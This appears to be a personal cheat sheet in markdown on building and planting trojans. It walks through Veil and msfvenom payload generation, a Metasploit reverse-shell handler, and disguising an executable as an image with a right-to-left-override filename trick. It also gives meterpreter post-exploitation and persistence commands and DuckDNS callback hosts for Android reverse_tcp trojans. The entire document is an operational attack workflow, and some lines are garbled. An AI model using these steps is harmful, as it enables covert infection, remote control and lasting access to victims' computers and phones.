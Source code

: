 ```
cd Veil
python3 Veil.py
use 1
use ...
set LHOST 10.0.2.15
set LPORT 4752
generate
name
```

### Try

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_http ...
```
- Type of trojan called reserve
  - we upload our site

### Add Image

```
cd FakeImageExploiter
leafpad settings 
bash FakeImageExploiter.sh
```

### Change Name

```
Characters
Leafpad ... .jpg.exe paste
... .gpj.exe
right-to-left Override Copy Paste left of g
..exe.jpg left side is will be different
```

### When Throwing to Another Tree

```
LHOST 88.254.238.157 
msfconsole k�sm�nada 
LHOST 192.168.56.1
```

### After Connecting

- Never write ```ls``` <br>

```background```= Reverses the process <br>
```session 1```= 1st session starts<br>
```pwd```= Shows the location<br>
```sysinfo```= Shows the system<br>
```ps```= Shows open files<br>
```migrate 3268```= It starts (hides) the trojan into the file coded 3268<br>
```help```= Shows fun gadgets (haha) <br>

---
### We See the Whole System

```
run migrate
run metsvc
run persistence -X -U -A -L %TEMP% -r 10.0.2.15 -r 8443
run vnc
getsystem
```

### The Connection Always Remains

```
background 
use exploit/windows/local/persistence
show options
set EXE_NAME windows.exe
set SESSION 1
show advanced
set EXE::Custom ... (trojan location)
exploit
```

### If you do not fix your IP with Duck Dns, the connection will be lost when the modem is turned off.

```
cd duckdns/
ls
./duck.sh
```

Trojan for Android

```
msfvenom
//msfvenom -p android/meterpreter/reverse_tcp LHOST=88.254.238.157 LPORT=4444 -o /root/Desktop/trojan.apk
msfvenom -p android/meterpreter/reverse_tcp LHOST=dnsserver12.duckdns.org LPORT=4444 -o /root/Desktop/trojan1.apk
```



